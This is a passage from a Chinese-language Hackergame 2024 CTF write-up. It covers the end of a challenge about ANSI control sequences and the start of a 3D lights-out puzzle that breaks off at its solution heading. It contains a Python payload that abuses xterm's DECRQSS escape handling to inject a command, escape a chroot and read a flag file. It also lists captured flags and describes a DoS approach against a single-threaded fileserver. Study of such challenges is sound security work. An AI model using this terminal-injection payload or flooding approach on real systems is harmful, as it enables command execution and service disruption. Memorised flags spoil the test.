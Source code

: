 ```python
evil_payload = "\x1bP$q\r\x03python3 -c \"import os;os.chroot('usr');os.chdir('../..');os.chroot('.');open('/tmp/flag2','w').write(open('flag2').read())\"\r\x1b\\\r"

# ... and finally
print(open('/tmp/flag2', 'r').read())
```

_（注：这是没有仔细看 `Dockerfile` 导致的。实际上只有 fileserver 运行在 chroot 下，zutty 并没有，因此只需要写 `cp /flag2 /tmp/flag2` `chmod 777 /tmp/flag2` 就行了。）_

### Flags

```plain
flag{wa1t_no0O0oooO_mY_b1azIngfA5t_raust_f11r5erVer_16b6c2a40e}
flag{xterm_&_DECRQSS_in_2008_0NcE_morE_919ce004bc}
```

Wait noooooooo! My blazing fast rust fileserver!\
我还是喜欢你刚才桀骜不驯的样子。

xterm & DECRQSS in 2008 once more.\
没错，这个漏洞不止梅开二度，到现在为止已经梅开 N 度了（至于没什么这么容易出现，我目前还没有仔细考证过）。

### 其他做法

#### DoS 攻击

鉴于 fileserver 没有使用任何异步、多线程等方式处理请求，我们的 Python 程序只需要开一个子进程对它不停发请求，然后自己退出睡大觉就行了。这样，系统检测 fileserver 是否存活时，DoS 攻击仍然在持续。

不过这种方法无法获得 flag2。

### 拓展阅读

[官方题解指出](https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/official/%E5%8A%A8%E7%94%BB%E5%88%86%E4%BA%AB/README.md)，ANSI 控制序列不止可以设置颜色、格式以及标题，甚至可以玩很多别的有趣的东西，例如显示图片、播放音乐。看起来非常好玩，值得试一试。

## 24. ~~关灯~~

_完成 3/4_

3D 版本的关灯游戏。

注：解决这道题不需要很多计算资源，一般的笔记本电脑都是可以完成任务的。最后一问传输数据量较大而且时限很短，为了避免网速的影响，使用了多阶段的题目下载与答案上传机制。

四个子任务的规模分别为：

1. 网格大小 $3^3$，时限 200s；
2. 网格大小 $5^3$，时限 200s；
3. 网格大小 $11^3$，时限 200s；
4. 网格大小 $149^3$，时限 10s。

### 做法
